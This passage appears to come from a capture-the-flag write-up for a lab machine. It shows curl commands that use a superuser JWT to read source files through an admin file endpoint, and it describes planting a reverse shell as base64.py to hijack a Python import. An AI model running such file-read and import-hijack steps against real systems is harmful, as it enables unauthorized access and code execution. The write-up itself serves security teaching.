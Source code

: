 ```bash
$ filename=$(echo -n '/home/htb/app/api/v1/api.py' | base64 -w 0); curl -s -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjYyMjU3NjgxLCJpYXQiOjE2NjE1NjY0ODEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiOGMyODk2MDMtN2JhNS00ZGNjLTlmN2ItNTBjN2EyNDg5ODRiIn0.PI_NGiM1QT17mdkAG9m0dJFpPp5tTAuBgAxnzG1dNGk' http://10.129.227.139/api/v1/admin/file/$filename | jq -r '.file'
from fastapi import APIRouter

from app.api.v1.endpoints import user, admin


api_router = APIRouter()
api_router.include_router(user.router, prefix="/user", tags=["user"])
api_router.include_router(admin.router, prefix="/admin", tags=["admin"])
```

There are a couple things of note about the administrative endpoints:

- The write file endpoint appears to require a `debug` key in the JWT body
- Both the read file and write file endpoints `import base64` in their bodies. According to the application's environment variables, it is currently running in `/home/htb`. If `base64.py` is written to `/home/htb`, it will execute instead of Python's standard `base64` library. If the write file endpoint can be used to write a reverse shell in `/home/htb/base64.py`, either the read file or write file endpoints can be subsequently invoked to execute the reverse shell.

```bash
$ filename=$(echo -n '/home/htb/app/api/v1/endpoints/admin.py' | base64 -w 0); curl -s -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjYyMjU3NjgxLCJpYXQiOjE2NjE1NjY0ODEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiOGMyODk2MDMtN2JhNS00ZGNjLTlmN2ItNTBjN2EyNDg5ODRiIn0.PI_NGiM1QT17mdkAG9m0dJFpPp5tTAuBgAxnzG1dNGk' http://10.129.227.139/api/v1/admin/file/$filename | jq -r '.file'
import asyncio

from fastapi import APIRouter, Depends, HTTPException, Query, Request
from sqlalchemy.orm import Session
from typing import Any, Optional

from app import crud
from app.api import deps

from app import schemas

from app.schemas.admin import WriteFile
from app.schemas.user import User


router = APIRouter()


@router.get("/", status_code=200)
def admin_check(
    *,
    current_user: User = Depends(deps.parse_token),
    db: Session = Depends(deps.get_db)
) -> dict:
    """
    Returns true if the user is admin
    """
    if current_user['is_superuser']:
        return {"results": True }

    return {"results": False }


@router.get("/get_user_flag", status_code=200)
```
